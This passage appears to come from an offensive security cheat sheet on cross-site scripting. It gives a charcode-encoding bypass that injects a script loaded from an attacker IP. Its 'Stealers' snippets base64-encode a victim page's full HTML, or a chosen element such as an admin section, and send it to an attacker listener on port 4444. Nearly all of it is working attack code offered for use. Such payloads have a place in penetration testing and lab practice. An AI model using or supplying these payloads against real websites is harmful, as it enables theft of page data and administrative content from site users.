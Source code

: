 #### <mark style="color:red;">`Charcode Bypass`</mark>

* <mark style="color:purple;">First use</mark> <mark style="color:green;">**`python`**</mark> <mark style="color:purple;">to convert the payload to integers:</mark>

{% code overflow="wrap" %}
```python
python3 -c "print(','.join([str(ord(c)) for c in '''document.write('<script src=\"http://10.10.16.8/tokyo.js\"></script>');''']))"
```
{% endcode %}

* <mark style="color:purple;">Now make the payload:</mark>

{% code overflow="wrap" %}
```javascript
<img src="x/><script>eval(String.fromCharCode(CHARCODE_HERE));</script>">
```
{% endcode %}

* <mark style="color:purple;">If you get a respond on the server you can try to steal data by creating the malicious files.</mark>
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Stealers</mark>

### <mark style="color:orange;">`Reflected XSS`</mark>

* <mark style="color:purple;">Capture the</mark> <mark style="color:orange;">**`Full HTML`**</mark> <mark style="color:purple;">content of a web page:</mark>

{% code overflow="wrap" %}
```javascript
var req=new XMLHttpRequest();
req.open('GET', 'http://10.10.16.8:4444/?tokyo=' + btoa(document.body.innerHTML), true);
req.send();
```
{% endcode %}

* <mark style="color:purple;">Once the full content is captured you can target a specific element or section of the page:</mark>

{% code overflow="wrap" %}
```javascript
function getElement() {
	var req1=new XMLHttpRequest(); 
	req1.open('GET', '#admin' , true); //Swap #admin for your desired element
	req1.onreadystatechange = function () { 
		if (req1.readyState === req1.DONE) {
			if (req1.status === 200) { 
				 var req2=new XMLHttpRequest(); 
				req2.open('GET', 'http://10.10.16.8:4444?tokyo=' + btoa(req1.responseText), true);
				req2.send(); 
				}
			}
		}; 
	req1.send();
}

getElement();
```
{% endcode %}
